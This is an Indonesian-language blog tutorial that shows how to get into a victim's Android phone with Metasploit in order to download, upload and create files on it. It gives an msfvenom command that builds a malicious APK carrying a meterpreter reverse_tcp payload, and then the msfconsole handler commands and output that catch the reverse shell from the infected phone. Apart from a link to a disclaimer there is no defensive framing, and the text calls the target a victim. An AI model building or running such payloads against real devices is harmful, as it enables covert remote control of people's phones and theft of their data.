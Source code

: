```yaml
---
title: Metasploit - Download Upload and Create
author: mrhidden
date: '2019-09-07T22:47:00.000-07:00'
categories: [Blogging, Tutorial]
tags: [exploit]
---
```


![](https://1.bp.blogspot.com/-mQ4rqmnR5YE/XXQFBKJAcQI/AAAAAAAAAnY/eR0Wv2BNJF0LlSliq8Pm3vkXcbd-n8tJwCLcBGAs/s1600/carbon.png)

  
Kali ini saya akan sharing bagaimana caranya untuk Download, Upload maupun membuat folder/file di Android korban dengan Metasploit Framework.  
  
Sedikit penjelasan tentang Metasploit Framework.  
  
Metasploit Framework adalah fondasi di mana produk komersial dibangun. Ini adalah proyek sumber terbuka yang menyediakan infrastruktur, konten, dan alat untuk melakukan tes penetrasi dan audit keamanan yang luas. Berkat komunitas sumber terbuka dan tim konten Rapid7 yang bekerja keras, modul baru ditambahkan secara berkala, yang berarti bahwa exploit terbaru tersedia untuk Anda segera setelah dipublikasikan.  
  
Ada beberapa sumber daya yang tersedia secara online untuk membantu Anda mempelajari cara menggunakan Kerangka Metasploit; namun, kami sangat menyarankan agar Anda melihat Metasploit Framework Wiki, yang dikelola oleh tim konten Rapid7, untuk memastikan bahwa Anda memiliki informasi terbaru yang tersedia.  
  
Sumber : [METASPLOIT.ORG](https://metasploit.help.rapid7.com/docs)  
  
  
Disini saya tidak membuat tutorial instalasi nya, yang akan saya bahas bagaimana cara Download, Upload maupun membuat folder/file  
Sebelum kita lebih jauh saya harap anda telah membaca [DISCLAIMER](/disclaimer).  
  
Sebelum melakukan exploitasi nya kita akan membuat payload nya terlebih dahulu

```shell
msfvenom -p android/meterpreter/reverse_tcp LHOST=IP KALIAN LPORT=4444 R> namaapk.apk
```

Jika sudah membuat payload nya sekarang kita melakukan exploit nya  

```shell
mrhidden@mrhidden:~ $ msfconsole

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%     %%%         %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %  %%%%%%%%   %%%%%%%%%%% https://metasploit.com %%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%  %%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%    %%   %%%%%%%%%%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%  %%%%%
%%%%  %%  %%  %      %%      %%    %%%%%      %    %%%%  %%   %%%%%%       %%
%%%%  %%  %%  %  %%% %%%%  %%%%  %%  %%%%  %%%%  %% %%  %% %%% %%  %%%  %%%%%
%%%%  %%%%%%  %%   %%%%%%   %%%%  %%%  %%%%  %%    %%  %%% %%% %%   %%  %%%%%
%%%%%%%%%%%% %%%%     %%%%%    %%  %%   %    %%  %%%%  %%%%   %%%   %%%     %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%%%%% %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%          %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


       =[ metasploit v5.0.43-dev-                         ]
+ -- --=[ 1917 exploits - 1074 auxiliary - 330 post       ]
+ -- --=[ 556 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 4 evasion                                       ]

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set pyaload android/meterpreter/reverse_tcp
pyaload => android/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost IP KALIAN
lhost => IP KALIAN
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > exploit
``` 
Lebih jelas nya silahkan simak video dibawah  
  
<center>
  <iframe src="https://www.blogger.com/video.g?token=AD6v5dw3xjEcXbG1NTGXoSLPUmg36a8__qo83mxl_BJ6El72aiWidrvz9S4GLOtciuCkuIivsrJJdML0YRMo4Cww2K6hns4w8Gw_8GQ2nfOrHp_kWBZTkGKmay10HO50kCjnxnpOSocj" width="350" height="250" mozallowfullscreen="mozallowfullscreen"></iframe>
  </center>
  
Sekian dulu ya.  
CMIIW